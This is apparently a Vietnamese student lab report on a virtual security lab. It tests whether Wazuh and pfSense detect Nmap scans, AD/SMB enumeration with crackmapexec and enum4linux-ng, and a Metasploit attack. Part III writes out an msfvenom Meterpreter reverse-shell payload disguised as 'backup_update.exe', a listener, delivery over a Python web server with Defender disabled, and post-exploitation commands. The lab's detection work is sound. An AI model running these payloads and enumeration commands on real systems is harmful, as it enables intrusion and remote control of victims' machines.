

# Thực hành Firewall

## Các yêu cầu:

1. Thực hành 2,3,4
    - Sau khi triển khai đủ WZ trên Windows10, S
        - Cài đặt Zenmap trên windows 10 xem WZ có cảnh báo cài đặt Zenmap k
            - Không thì phải tìm thêm rule nhận biết phần mềm độc hại
            - Đứng từ windows 10 thực hiện Scan lên máy chủ và full lớp mạng (Xem logs của WZ và Log PFsense)
    - Scaning thu thập được những thông tin gì, Các tool có trong bài CEH 2,3,4 áp dụng vào mô hình vẽ lại toplo từ logscan
    - Thực hiện cài metasploit với mục tiêu c2 (bỏ qua các công cụ antisvurus tắt hẳn windows defender), payload giám sát từ xa mã độc thực hiện trên windows 10 và giám trên WZ phát hiện cảnh báo tấn công, phân tích theo mitre bởi rule cảnh báo
    - Cài Nessus trên kali linux thực hiện Scan Ning lên máy chủ windows server
    - Cài Acunetix trên kaliliunux scan lên máy chủ cổng dịch vụ wp Port 80.
- dùng zenmap/nmap trên kali quét dải mạng để tìm máy DC và máy Win clients,
- 2.sau khi thấy ip DC xác định các dịch vụ đang chạy và phiên bản win server
liệt kê về người dùng trong AD (LDAP/SMB enum),
- dùng wazuh phân tích log tìm dấu vết sau khi làm phần 1 và 2, tìm những event liên quan đến quét SMB và giải thích tại sao mà SIEM biết là hành vi tấn công chứ kphai hành vi thường

# I Cài đặt Zenmap và scan full lớp mạng

## **1. Mục tiêu (Objective)**

- Cài công cụ scan mạng (**Nmap/Zenmap**) trên Windows 10
- Thực hiện scan trong mạng nội bộ
- Kiểm tra:
    - Wazuh có phát hiện không
    - pfSense có log không
- Nếu chưa detect → tạo rule

## 2. Cài đặt zenmap và thêm rule

Bạn truy cập vào **Wazuh Dashboard** -> **Management** -> **Rules** -> **Custom rules** (file `local_rules.xml`) và thêm đoạn mã sau:

```jsx
<rule id="100005" level="12" overwrite="yes">
  <if_sid>100100</if_sid>
  <field name="win.eventdata.image">nmap\.exe|zenmap\.exe</field>
  <description>CẢNH BÁO: Phát hiện phần mềm quét mạng (Zenmap/Nmap) được thực thi</description>
  <mitre>
    <id>T1595</id>
  </mitre>
</rule>

```



Sau khi thêm rules xong nhớ restart lại wazuh

Em đã cấu hình Custom Rule với **ID 100005** trong file `local_rules.xml`. Rule này được thiết kế để:

- Phát hiện hành vi chạy công cụ quét mạng (Nmap/Zenmap)
- Dựa trên log **Sysmon Event ID 1 (process creation)**
- Gán mức độ nguy hiểm cao (level 12)
- Mapping với MITRE ATT&CK kỹ thuật **T1595 – Active Scanning**

## **3. Thực hiện scan full lớp mạng và thu thập log**

B1 Sau khi cài đặt Zenmap/Nmap, tiến hành scan từ máy Windows 10 tới máy chủ Windows Server trong cùng mạng LAN.


B2 Sau khi ta scan xong ta qua bên Windows-Server 

- Vào Security events

→ Chọn event 

Sau đó ta có thể thấy được các log mà wazuh đã bắt sau khi bên Client scan 


| **Trường (Field)** | **Ý nghĩa** | **Giải thích cho bài Lab của Thanh** |
| --- | --- | --- |
| **`agent.name`** | Tên máy gửi log | Cho biết máy nào đang bị tấn công (ví dụ: `WinServer-Client`). |
| **`rule.id`** | Mã số của luật | Mỗi hành vi (như quét port, chạy nmap) có một ID riêng để Wazuh phân loại. |
| **`rule.level`** | Mức độ nguy hiểm | Từ 1-15. Quét port thường là mức **3-4** (Cảnh báo), nhưng nếu quét nhiều lần sẽ nhảy lên **10-12** (Nguy hiểm). |
| **`rule.description`** | Mô tả hành vi | Đây là "lời phán" của Wazuh. Ví dụ: *"Possible suspicious access to Windows admin shares"*. |
| **`full_log`** | Nội dung thô | Toàn bộ thông tin gốc mà Windows/Sysmon gửi đi trước khi Wazuh xử lý. |

B3 Quét Ip của pfsense và xem phản ứng 

1. Ta sẽ sử dụng zenmap và quét tới port của pfsense 


#### - Mặc định, pfSense cho phép các thiết bị trong cùng một mạng LAN giao tiếp với nhau mà **không cần đi qua bộ lọc Firewall**. Vì vậy, khi bạn quét từ `.100` sang `.10`, pfSense thấy traffic đó nhưng nó không chặn và cũng không ghi log (mặc định log chỉ ghi các gói tin bị chặn).

Bước 1: Bật Log cho Rule LAN

1. Vào menu **Firewall** -> **Rules** -> Tab **LAN**.
2. Tìm Rule cho phép traffic (thường là rule `Default allow LAN to any`).
3. Nhấn vào nút **Edit** (hình bút chì) ở cuối dòng rule đó.
4. Cuộn xuống dưới cùng, tìm mục **Logging**, tích vào ô: **"Log packets that are handled by this rule"**
5. Nhấn **Save** và nhấn **Apply Changes** ở trên đầu trang.

**Bước 2** Quay lại Status→ Systerm logs và ta sẽ thấy được pfsense đã ghi lại những lần scan từ ip 10.10.10.100


Việc kết hợp **Wazuh (Host-based)** và **pfSense (Network-based)** mang lại cái nhìn toàn diện:

1. **Wazuh + Sysmon:** Cung cấp thông tin chi tiết về tiến trình (Process), người dùng (User) và các hành vi xâm nhập sâu vào dịch vụ máy chủ.
2. **pfSense:** Cung cấp bằng chứng về lưu lượng mạng bất thường và phạm vi quét của cuộc tấn công trên toàn bộ lớp mạng.
3. **Kết luận:** Hệ thống đã triển khai đúng yêu cầu, có khả năng phát hiện sớm các hoạt động thăm dò (Reconnaissance) của kẻ tấn công nội bộ.

# II Scaning thu thập được những thông tin gì, Các tool có trong bài CEH 2,3,4 áp dụng vào mô hình vẽ lại toplo từ logscan

### 1 Sau khi dùng zenmap để quét và thu được những thứ ở trên ta phần tích được như sau


- **Dịch vụ đặc trưng:** Cổng **88 (Kerberos)**, **389/636 (LDAP/LDAPS)** và **3268/3269 (Global Catalog)**ấu hiệu nhận biết  đây là một máy **Windows Domain Controller (Active Directory)**.
- **Quản trị từ xa:** Cổng **5985 (wsman)** cho thấy máy này cho phép quản trị qua PowerShell Remoting (WinRM).
- **Chia sẻ file:** Cổng **445 (microsoft-ds)** mở, quan trọng cho các bài lab về tấn công SMB (như EternalBlue).

## 2 Module 2 (Footprinting)

1 Ở module này là giai đoạn thu thập thông tin thụ động và chủ động từ xa để xác định phạm vị tấn công

- Ở bài lab này thì các mục tiêu được nằm trong dải mạng (10.10.10.0/24)
- Ta sẽ sử dụng **Ping Sweep** để xác định máy đang online

```jsx
 nmap -sn 10.10.10.0/24
```


Dựa vào những gì ta quét ta có thể thấy có 4 máy đang hoạt động tương đương ứng với 4 máy ảo tôi đang bật với:

- 10.10.10.1 (Máy firewall pfsense)
- 10.10.10.10 ( Máy Windows-Server)
- 10.10.10.15 (Máy kali-Linux)
- 10.10.10.100 (Máy Client đang tấn công)

**MAC Address & Vendor:** Tất cả các địa chỉ MAC đều bắt đầu bằng `00:0C:29`, xác nhận toàn bộ hạ tầng này là **VMware Virtual Machines**.

2 Ta cũng có thể xem sở đồ Topology trong Zenmap khi thực hiện xong scan


**Xây dựng sơ đồ mạng (Topology Reconstruction):**

Dựa trên kết quả thực thi lệnh quét tại **Module 2** 

**Phân tích sơ đồ:**

- **Node trung tâm:** Máy tấn công (Windows 10 - 10.10.10.100).
- **Node mục tiêu trọng điểm (Màu đỏ):** Windows Server (10.10.10.10). Việc nút này hiển thị lớn nhất cho thấy đây là bề mặt tấn công rộng nhất với nhiều dịch vụ Active Directory đang mở.
- **Các Node phụ trợ:** Gateway pfSense (.1) và máy Client (.15) đóng vai trò là các thành phần trong hạ tầng mạng nội bộ.

**Đối soát với Log:** Sơ đồ này khớp hoàn toàn với luồng dữ liệu ghi nhận được trên **pfSense Firewall**. Mọi mũi tên hướng từ tâm (localhost) ra các vệ tinh đều tương ứng với một dòng log "Pass" hoặc "Block" trong hệ thống giám sá

## 3 Module 3 (Scanning Netwworks)

### 1. Kỹ thuật Quét Stealth Scan (Nmap -sS)

 Thực hiện lệnh:
`nmap -sS -Pn -v 10.10.10.10`

- **Giải thích kỹ thuật:** Đây là kiểu quét **Half-open**. Nmap gửi gói tin `SYN`, nếu nhận được `SYN-ACK` từ mục tiêu thì nó biết cổng đó mở, nhưng thay vì gửi `ACK` để hoàn tất 3-way handshake, nó gửi `RST` để đóng kết nối ngay lập tức.
- **Mục đích:** Để tránh bị các ứng dụng (Application Layer) ghi log lại cuộc kết nối thành công.


- **Rule ID 100100:** Tuy đây là rule mặc định của Sysmon (Level 3), nhưng việc tìm thấy từ khóa **"Nmap"** trong mô tả sự kiện (Process creation Nmap) đã xác nhận chính xác công cụ được sử dụng.
- **Cơ chế phát hiện:** Wazuh đã phối hợp với **Sysmon (Event ID 1)** để bắt trọn khoảnh khắc file `nmap.exe` được nạp vào bộ nhớ và thực thi.

## 4 Module 4 (Enumeration)

### 4.1. Kỹ thuật Enumeration trên các dịch vụ trọng yếu

Dựa trên các port đã quét được ở Module 3 (88, 389, 445), chúng ta sẽ áp dụng các kỹ thuật sau:

- **SMB Enumeration (Port 445):** Bạn sử dụng Nmap Script Engine (NSE) để liệt kê các thư mục chia sẻ và thông tin OS.
    
    ```jsx
    nmap --script smb-os-discovery,smb-enum-shares -p 445 10.10.10.10
    ```
    

**Thông tin thu được:** Tên máy (Computer Name), NetBIOS name, các folder đang share (như `C$`, `ADMIN$`, `SYSVOL`).


- **LDAP Enumeration (Port 389/636):** Vì đây là Domain Controller, LDAP sẽ chứa toàn bộ danh bạ của hệ thống.
- LDAP (Lightweight Directory Access Protocol - Giao thức truy cập thư mục nhẹ) **là một chuẩn giao thức mở, đa nền tảng được dùng để truy cập, quản lý và xác thực thông tin người dùng, tài khoản máy tính trong hệ thống thư mục tập trung qua mạng**

```jsx
nmap -p 389 --script ldap-rootdse 10.10.10.10
```

**Mục tiêu:** Script này sẽ lấy thông tin **Root DSE** (Naming Contexts), giúp bạn biết được tên Domain chính xác (ví dụ: `DC=thanh,DC=local`).


### 4.1 Thông tin định danh hệ thống (Naming Contexts)

- **Domain Name (FQDN):** Dựa vào trường `dnsHostName`, ta biết tên đầy đủ của máy chủ là **`WIN-CBO3P684571.lab.local`**.
- **Distinguished Name (DN):** Trường `defaultNamingContext` cho thấy tên miền nội bộ là **`DC=lab,DC=local`**.
- **Cấu trúc AD:** Các trường `Configuration` và `Schema` (`CN=Configuration,DC=lab,DC=local`) xác nhận đây là một Forest Active Directory hoàn chỉnh.

### 4.2 Thông tin máy chủ và Thời gian

- **Computer Name:** `WIN-CBO3P684571` (Tên mặc định khi cài Windows Server).
- **OS Info:** Xác nhận chạy hệ điều hành **Windows**.
- **Current Time:** `2026-04-07 17:18:09`. Việc biết thời gian chính xác của Server rất quan trọng cho các cuộc tấn công liên quan đến giao thức **Kerberos** (thường lỗi nếu lệch quá 5 phút).

# III Metasploit

### 3.1 Trước tiên ta cần khởi động Metasploit

```jsx
msfconsole
```


1 Ta sẽ tạo 1 payload C2 bằng Msfvenom trên Kali

Tạo 1 file thực thi (.exe) kết nối ngược về máy chủ C2

```jsx
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.15 LPORT=4444 -f exe -o backup_update.exe
```

- **LHOST/LPORT:** Địa chỉ máy Kali của bạn.
- **f exe:** Định dạng file thực thi cho Windows.


Như vậy ta đã tạo được 1 file backup_update.exe và giờ ta chỉ cần gửi qua máy client (Lưu ý máy Client phải tắt firewall)

2 Thiết lập Listener trên Metasploit (C2 Server)

Ta sẽ tạo 1 file có tên là init.rc và đưa các câu lệnh sau vào 

```jsx
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.10.15
set LPORT 4444
exploit
```

- **`use exploit/multi/handler`**: Mở một "trạm thu tin" (Listener). Đây là module chuyên dùng để hứng các kết nối ngược (Reverse Connection) từ mã độc gửi về.
- **`set payload windows/x64/meterpreter/reverse_tcp`**: Chọn loại "vũ khí". Ở đây là **Meterpreter** (công cụ điều khiển máy tính cực mạnh) chạy trên nền tảng Windows 64-bit, kết nối về qua giao thức TCP.
- **`set LHOST 10.10.10.15`**: Khai báo địa chỉ của "Trạm điều khiển" (máy Kali của Thanh). Mã độc sẽ nhìn vào đây để biết phải tìm bạn ở đâu.
- **`set LPORT 4444`**: Cổng chờ. Giống như số nhà, mã độc phải gõ đúng cổng 4444 thì Metasploit mới nhận diện được.
- **`set ExitOnSession false`**: Giữ cho trạm thu tin luôn mở. Nếu không có lệnh này, sau khi nhận được 1 máy kết nối, Listener sẽ tự đóng lại. Có lệnh này thì bạn có thể nhận hàng chục máy cùng lúc.
- **`exploit -j`**: Kích hoạt trạm thu tin và chạy ẩn dưới nền (**job**). Giúp bạn vẫn dùng được terminal để gõ lệnh khác trong khi chờ nạn nhân "dính bẫy"

Sau đó ta chạy tải và thực thi các lệnh ở trên

```jsx
resource init.rc
```

3 Tắt Windows Defend bên win10 và tải file

Vì đang cùng chung 1 mạng nên để Win10 nhận được tệp dính malware mà Kali tạo thì bên kali sẽ chạy 1 lệnh python để mở server và bên Win10 chỉ cần truy cập vào URL là sẽ tự động tải file về 

```jsx
python3 -m http.server 80
```

Và bên kia chỉ cần truy cập URL sau 

```jsx
http://10.10.10.15/backup_update.exe
```

Bạn có thể thấy ngay khi tải thành công thì bên kali sẽ hiện lên các thông báo đã kết nối với máy nạn nhân 


### 3.2 Hành động chiếm quyền (Post-Exploitation)

1 Tại dòng lệnh `meterpreter >`, Thanh hãy gõ vài lệnh "vét sạch" thông tin để chứng minh quyền kiểm soát:

- **`getuid`**: Xem bạn đang là ai trên máy nạn nhân (thường là User Thanh hoặc System).
- **`sysinfo`**: Xem thông tin hệ điều hành của máy bị hack.
- **`shell`**: Mở cửa sổ CMD của máy Win 10 ngay trên máy Kali.


Như bạn đã thấy ta đã có thể xem thư mục của máy nạn nhân

2 Ở Bên Wazuh ta có thể thấy hệ thống đã cảnh báo 


- **Level 12 or above alerts (1):** Đây chính là "phát súng" quan trọng nhất. Một cảnh báo **Level 12** (màu đỏ) thường liên quan đến các hành vi cực kỳ nguy hiểm như mã độc thực thi hoặc kết nối C2 bị phát hiện.

2.1 Nhìn vào danh sách **Top MITRE ATT&CKS**, chúng ta thấy các kỹ thuật "kinh điển" của Metasploit mà Thanh vừa thực hiện:

- **Process Injection:** Thể hiện việc mã độc Meterpreter nạp vào bộ nhớ.
- **Command and Control (T1071):** Chính là luồng dữ liệu giữa máy Win10 (.100) và Kali (.15).
- **Application Layer Protocol:** Kỹ thuật trao đổi lệnh giữa Attacker và nạn nhân.
- **Lateral Tool Transfer:** Hành động bạn tải file mã độc từ máy Kali sang máy Win10.

2.2 Xem chi tiết các log


- **Rule ID 100100 (Level 3):** Đây là Rule mặc định (hoặc tùy chỉnh) dùng để giám sát việc tạo tiến trình (**Process Creation**). Việc nó xuất hiện liên tục cho thấy có rất nhiều tiến trình đang được khởi chạy trong thời gian ngắn.
- **Technique T1546 (Event Triggered Execution):** * Wazuh đã tự động ánh xạ hành vi này vào khung **MITRE ATT&CK**.
    - **Ý nghĩa:** Kẻ tấn công (mã độc) đang cố gắng thiết lập sự hiện diện lâu dài bằng cách tận dụng các sự kiện hệ thống để tự động thực thi lại mã độc (Persistence).
- **Tactics (Privilege Escalation, Persistence):** * Wazuh nhận diện hành vi này không chỉ là thực thi đơn thuần mà còn có dấu hiệu **leo thang đặc quyền** và **duy trì quyền kiểm soát**.
- `Process creation Python`**Ý nghĩa:** Đây là lúc môi trường Python được kích hoạt để thực hiện các script tấn công hoặc truyền tải file.


### Mô tả chi tiết Topology (để bạn ghi vào báo cáo):

- **pfSense Firewall (10.10.10.1)**: Làm trung tâm, đóng vai trò gateway và firewall cho toàn bộ LAN.
- **Switch (10.10.10.1)**: Kết nối tất cả các thiết bị trong dải mạng **10.10.10.0/24**.
- **Attacker**: Windows 10 Client (10.10.10.100) – Thực hiện **active scanning** bằng Zenmap/Nmap (Module 3).
- **Target**: Domain Controller / Windows Server (10.10.10.10) – Máy chủ mục tiêu, cài Wazuh Agent.
- **Monitoring**: Kali Linux (10.10.10.15) + **Wazuh SIEM** – Thu thập và phân tích log từ pfSense (syslog) và từ các host (Wazuh Agent).

**Luồng chính trong Module 3 & 4**:

- Attacker → Scan full lớp mạng bằng Nmap/Zenmap.
- Traffic scan đi qua pfSense → được ghi log (sau khi bật logging rule).
- Wazuh nhận log từ cả host (process creation của Nmap) và network (pfSense) → phát hiện reconnaissance.

# IV Cài đặt Nessus

### I Trước hết ta cần hiểu Nessus là phần mềm giúp cho chúng ta quét được lỗ hổng

- Kiểm tra hệ thống (server, máy tính, network)
- Tìm các **lỗ hổng bảo mật (vulnerabilities)**
- Phát hiện cấu hình sai, dịch vụ nguy hiểm, phần mềm lỗi thời

### II Chức năng chính của Nessus

#### 1. Quét lỗ hổng (Vulnerability Scanning)

- Tìm các lỗi như:
    - CVE (lỗ hổng đã được công bố)
    - Port mở nguy hiểm
    - Dịch vụ lỗi thời
- Ví dụ:
    - Server chạy Apache phiên bản cũ → có thể bị hack

---

#### 2. Phát hiện cấu hình sai (Misconfiguration)

- Kiểm tra:
    - Password yếu
    - Quyền truy cập sai
    - Firewall cấu hình lỗi

---

#### 3. Kiểm tra hệ điều hành & phần mềm

- Windows, Linux, Database, Web Server…
- Phát hiện:
    - Thiếu bản vá (patch)
    - Phần mềm chưa update

---

#### 4. Đánh giá mức độ nguy hiểm

- Nessus sẽ phân loại:
    - 🔴 Critical (nghiêm trọng)
    - 🟠 High
    - 🟡 Medium
    - 🔵 Low

### III Cài đặt trên kali

B1 Vào trang chính chủ của nessus và cài bản phù hợp và đợi 

Sau khi cài xong bạn sẽ được 1 giao diện như vầy 


Để có thể vào được giao diện này trước tiên bạn phải khởi động nessus bằng lệnh sau trên kali:

```jsx
sudo systemctl start nessusd
```


### IV Thực Hành

#### Bước 1: Chuẩn bị trên máy Windows Server (Mục tiêu)

Nessus cần có quyền truy cập để kiểm tra các lỗ hổng sâu bên trong.

1. **Kiểm tra IP:** Mở CMD trên Windows Server, gõ `ipconfig` để lấy địa chỉ IP.
2. **Tắt tạm Firewall (Quan trọng trong Lab):** * Vào *Windows Defender Firewall* -> *Turn Windows Defender Firewall on or off* -> Chọn **Turn off** cho cả Private và Public network.
    - Nếu bật Firewall, nó sẽ chặn các gói tin thăm dò của Nessus, kết quả trả về sẽ rất nghèo nàn.
3. **Bật dịch vụ Remote Registry:**
    - Nhấn `Win + R`, gõ `services.msc`.
    - Tìm dịch vụ tên là **Remote Registry**, chuột phải chọn **Start** (để Nessus có thể đọc thông tin phiên bản phần mềm/OS)

Bước 2: Tạo bản quét trên Nessus (Kali Linux)


Khi ấn New Scan bạn có thể thấy được rất nhiều option bạn có thể chọn tùy vào mục đích của bạn


Ta sẽ thử với option Basic Network Scan


Nhập tài khoản mật khẩu Admin của windows server để nessus quét chính xác nhất

Sau đó ta lưu và chạy thôi


-  Hệ thống cho phép đăng nhập từ xa bằng tài khoản quản trị. Mặc dù đây không phải là lỗi, nhưng nếu mật khẩu yếu, kẻ tấn công có thể thực hiện tấn công Brute Force để chiếm quyền điều khiển hoàn toàn (như đã chứng minh bằng công cụ `crackmapexec`)."


### SMB Enumeration (DCE/RPC)

- **Ý nghĩa:** Nessus đã liệt kê (enumerate) được danh sách các dịch vụ, tiến trình và cấu hình hệ thống từ xa.

# V  Kiểm Tra SIEM

#### B1 Quét dải mạng bằng Nmap/Zenmap

Ta sẽ quét full dải mạng 


Ta có thể Ip tương ứng với từng loại máy 

#### **B2: Liệt kê người dùng AD (LDAP/SMB Enumeration)**
Sau khi xác định được máy DC, chúng ta sẽ "moi" thông tin người dùng.
**1. Liệt kê qua SMB (Sử dụng `enum4linux` hoặc `crackmapexec`):**

```jsx
crackmapexec smb 10.10.10.10 -u 'Administrator' -p 'Admin@123' --users
```


### Phân tích kết quả Enumeration (Crackmapexec)

- **SMB 10.10.10.10 … Windows Server 2022 (domain: lab.local)**
→ Xác định mục tiêu là **Domain Controller**, chạy SMB port 445.
- **[+] lab.local\Administrator:Admin@123 (Pwn3d!)**
→ Đăng nhập **thành công với quyền admin** trên máy/domain.
- **[+] Enumerated domain users**
→ Công cụ đã **liệt kê được danh sách user trong AD**.
- **lab.local\krbtgt … Key Distribution Center Service Account**
→ Account quan trọng dùng cho **Kerberos**, có thể khai thác Golden Ticket.
- **lab.local\Guest / Administrator … Built-in account**
→ Các tài khoản mặc định trong Windows (Guest, Admin).

**2 Sử dụng enum để liệt kê**

```jsx
enum4linux-ng -A 10.10.10.10 -u Administrator -p 'Admin@123'
```

**Kết quả:** Nó sẽ tự động liệt kê: Danh sách User, Group, các thư mục chia sẻ (Shares), chính sách mật khẩu (Password Policy) và thông tin hệ điều hành.


- **Checking LDAP / LDAPS / SMB / NetBIOS**
→ Xác định các **dịch vụ đang mở**: LDAP (389), LDAPS (636), SMB (445), NetBIOS (139).
- **Domain Information via LDAP**
→ Thu thập thông tin domain thông qua **LDAP query**.
- **Appears to be root/parent DC**
→ Máy này là **Domain Controller chính** của hệ thống.
- **Long domain name is: lab.local**
→ Xác định **tên domain đầy đủ (FQDN)**.
- **NetBIOS name: LAB + service roles**
→ Lấy **NetBIOS name** và các vai trò: Workstation, Domain Controller, File Server.

#### B3 Thu thập log bên wazuh

Sau khi chạy 2 lệnh trên để thu thập thông tin của WS ta ta sẽ thu được những log sau


**1. Phân tích nội dung cảnh báo (Rule ID: 92652 & 92657)**

- Successful Remote Logon Detected: Phát hiện đăng nhập từ xa thành công
    - Event ID: **4624**
    - Kiểu: **SMB login**
- User: Administrator
    - **Administrator (domain admin)**
- Authentication: NTLM
    
    Thường xuất hiện khi:
    
    - dùng `crackmapexec`
    - hoặc SMB login
- Possible pass-the-hash
    - Login từ xa
    - Dùng NTLM
    - Không phải hành vi user bình thường

**2. Tại sao SIEM biết đây là hành vi tấn công?**

- Hệ thống Wazuh phát hiện sự kiện đăng nhập từ xa thành công sử dụng tài khoản Administrator thông qua giao thức NTLM. Đây là dấu hiệu bất thường vì tài khoản quản trị được sử dụng để truy cập từ xa, có thể liên quan đến kỹ thuật Pass-the-Hash trong quá trình tấn công SMB enumeration.